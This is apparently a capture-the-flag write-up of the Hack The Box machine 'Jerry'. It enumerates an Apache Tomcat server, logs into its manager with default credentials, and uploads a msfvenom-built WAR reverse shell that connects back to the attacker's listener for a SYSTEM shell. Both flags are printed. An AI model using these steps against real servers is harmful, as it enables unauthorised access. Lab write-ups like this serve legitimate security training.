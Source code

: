 ```yaml
---
layout: post
title: "HTB: Jerry"
author: Andrew Cherney
date: 2023-11-20 20:37:50
tags: htb easy-box windows apache msvenom
icon: "/assets/icons/jerry.png"
post_description: "An easy box with a brute force login into a reverse shell upload. A demonstration of how simple many of the earlier boxes in HTB are."
---
```


# Enumeration

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~]
└──╼ $nmap -sC -Pn 10.10.10.95
Starting Nmap 7.92 ( https://nmap.org ) at 2023-11-20 20:07 CST
Nmap scan report for 10.10.10.95
Host is up (0.065s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~]
└──╼ $dirsearch -u http://jerry.htb:8080

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/raccoon/reports/http_jerry.htb_8080/_23-11-20_20-12-25.txt

Target: http://jerry.htb:8080/

[20:12:25] Starting: 
[20:12:39] 400 -    0B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[20:12:40] 400 -    0B  - /a%5c.aspx
[20:13:11] 302 -    0B  - /docs  ->  /docs/
[20:13:11] 200 -   19KB - /docs/
[20:13:14] 302 -    0B  - /examples  ->  /examples/
[20:13:14] 200 -   17KB - /examples/jsp/index.html
[20:13:14] 200 -    1KB - /examples/
[20:13:14] 200 -    7KB - /examples/servlets/index.html
[20:13:14] 200 -    1KB - /examples/websocket/index.xhtml
[20:13:14] 200 -  637B  - /examples/servlets/servlet/CookieExample
[20:13:14] 200 -    1KB - /examples/servlets/servlet/RequestHeaderExample
[20:13:15] 200 -   21KB - /favicon.ico
[20:13:16] 200 -  716B  - /examples/jsp/snp/snoop.jsp
[20:13:20] 302 -    0B  - /host-manager/  ->  /host-manager/html
[20:13:21] 401 -    2KB - /host-manager/html
[20:13:29] 302 -    0B  - /manager  ->  /manager/
[20:13:29] 302 -    0B  - /manager/  ->  /manager/html
[20:13:30] 401 -    2KB - /manager/jmxproxy/?set=BEANNAME&att=MYATTRIBUTE&val=NEWVALUE
[20:13:30] 401 -    2KB - /manager/html/
[20:13:30] 401 -    2KB - /manager/jmxproxy/?get=BEANNAME&att=MYATTRIBUTE&key=MYKEY
[20:13:30] 401 -    2KB - /manager/status/all
[20:13:30] 404 -    2KB - /manager/VERSION
[20:13:30] 404 -    2KB - /manager/login.asp
[20:13:30] 401 -    2KB - /manager/jmxproxy/?invoke=BEANNAME&op=METHODNAME&ps=COMMASEPARATEDPARAMETERS
[20:13:30] 404 -    2KB - /manager/admin.asp
[20:13:30] 401 -    2KB - /manager/jmxproxy
[20:13:30] 401 -    2KB - /manager/html
[20:13:30] 401 -    2KB - /manager/jmxproxy/?get=java.lang:type=Memory&att=HeapMemoryUsage
[20:13:30] 404 -    2KB - /manager/login
[20:13:30] 401 -    2KB - /manager/jmxproxy/?invoke=Catalina%3Atype%3DService&op=findConnectors&ps=
[20:13:30] 401 -    2KB - /manager/jmxproxy/?qry=STUFF

Task Completed
```

![default apache page](/img/jerry/jerry_apache_default.png)

# Admin as nt authority\system

## msvenom WAR payload

Accessing manager or host-manager requires a login. I used a credentials list from https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown and found the credentials to be tomcat:s3cret. 

![apache app manager](/img/jerry/jerry_apache_app_manager.png)

Well we can upload and deploy WAR files to run on the underlying Windows Server 2012 R2 running this apache server. Msvenom will come in handy to make this payload.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~]
└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=7777 -f war > reverse.war
Payload size: 1091 bytes
Final size of war file: 1091 bytes
```

Upload the reverse shell and head to the newly uploaded page to execute the code.

![war file upload](/img/jerry/jerry_war_reverse_upload.png)

```
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Jerry]
└──╼ $nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.10.95 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```

And we are admin of the box. Two flags for the price of one.

```
C:\Users\Administrator\Desktop\flags>type * 
type *
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```



